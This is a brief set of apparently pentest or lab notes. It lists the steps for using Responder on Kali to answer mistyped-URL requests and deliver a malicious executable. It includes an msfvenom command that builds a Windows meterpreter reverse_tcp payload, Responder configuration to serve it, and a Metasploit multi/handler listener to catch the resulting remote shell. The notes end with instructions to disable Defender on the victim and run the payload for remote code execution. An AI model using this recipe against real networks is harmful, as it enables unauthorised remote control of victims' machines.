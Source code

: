 1. Turn SMB and HTTP back on - gedit /usr/share/responder/Responder.conf
2. Create reverse shell payload on the kali machine - msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[IP] LPORT=[port] -f exe > payload.exe
3. Move the payload to the files folder of the responder - mv payload.exe /usr/share/reponder/files
4. Configure the responder to deliver the created reverse shell payload and to serve a prebuiled html page:
	nano /usr/share/responder/Responder.conf
	Serve-Exe = On
	Serve-Html = On
	ExeFilename = files/payload.exe
5. Execute responder to answer web requests - responder -I [interface] -w
6. Open a listener to catch the reverse TCP payload:
	msfconsole
	use exploit/multi/handler
	set payload windows/x64/meterpreter/reverse_tcp
	set LPORT [port]
	set LHOST [IP]
	run
7. Turn off the defender on the victim's client machine
8. Open internet explorer and mistype the URL bar for any random website
9. Open the payload to achieve RCE